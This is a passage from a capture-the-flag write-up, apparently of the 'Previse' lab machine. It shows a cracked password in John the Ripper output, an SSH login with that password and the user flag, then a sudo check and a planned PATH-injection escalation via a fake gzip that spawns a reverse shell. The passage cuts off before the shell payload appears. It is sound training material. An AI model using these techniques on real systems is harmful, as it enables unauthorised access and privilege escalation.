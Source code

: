 ```code
ilovecody112235! (?)
1g 0:00:05:07 DONE (2021-08-13 07:27) 0.003252g/s 24108p/s 24108c/s 24108C/s ilovecodyb..ilovecody*
Use the "--show" option to display all of the cracked passwords reliably
Session completed
┌──(kali㉿kali)-[~/Desktop]
└─$ john --show password                                                 6 ⚙
?:ilovecody112235!

1 password hash cracked, 0 left
```

## Obtaining user flag
Using the cracked credentials, we will SSH into the server and obtain the user flag
```code
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh m4lwhere@10.10.11.104                                            6 ⚙
The authenticity of host '10.10.11.104 (10.10.11.104)' can't be established.
ECDSA key fingerprint is SHA256:rr7ooHUgwdLomHhLfZXMaTHltfiWVR7FJAe2R7Yp5LQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.104' (ECDSA) to the list of known hosts.
m4lwhere@10.10.11.104's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-151-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Aug 13 11:42:46 UTC 2021

  System load:  0.0               Processes:           183
  Usage of /:   49.2% of 4.85GB   Users logged in:     0
  Memory usage: 21%               IP address for eth0: 10.10.11.104
  Swap usage:   0%


0 updates can be applied immediately.


Last login: Fri Jun 18 01:09:10 2021 from 10.10.10.5
m4lwhere@previse:~$ cat user.txt
<Redacted user flag>
m4lwhere@previse:~$  
```

## Path Injection
First, we will try to find the programs with root privileges and we discovered that ```/opt/scripts/access_backup.sh``` can be executed with root privileges.
```code
m4lwhere@previse:~$ sudo -l
[sudo] password for m4lwhere: 
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```
To escalate our privilege to root privileges, we will have to do some path injection. We would have to first create a gzip file in our ```/tmp``` directory that will spawn a reverse shell. The reason why we write to the ```/tmp``` directory is because this directory is the only dierctory where we have permission to write to.
```code
m4lwhere@previse:/$ ls -la
total 100
drwxr-xr-x  24 root root  4096 Jul 27 15:04 .
drwxr-xr-x  24 root root  4096 Jul 27 15:04 ..
drwxr-xr-x   2 root root  4096 Jul 27 14:41 bin
```